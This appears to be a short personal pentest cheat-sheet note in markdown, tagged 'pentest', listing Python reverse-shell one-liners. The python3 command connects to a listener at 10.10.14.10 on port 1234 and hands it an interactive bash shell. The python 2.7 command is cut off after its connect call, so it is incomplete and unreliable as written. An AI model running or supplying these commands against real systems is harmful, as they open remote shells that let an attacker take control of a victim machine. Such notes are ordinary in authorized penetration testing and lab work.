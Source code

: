 ```yaml
---
category: Uncategorized
tags: [pentest]
created: 2024-12-21

---
```

### Launch reverse shell with python3
```exec python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.14.10",1234));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("/bin/bash")'```

### Launch reverse shell with python 2.7

``python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.0.0.1",1234))``


Last updated: `$= dv.current().file.mtime.toFormat("MMMM dd, yyyy 'at' HH:mm")`
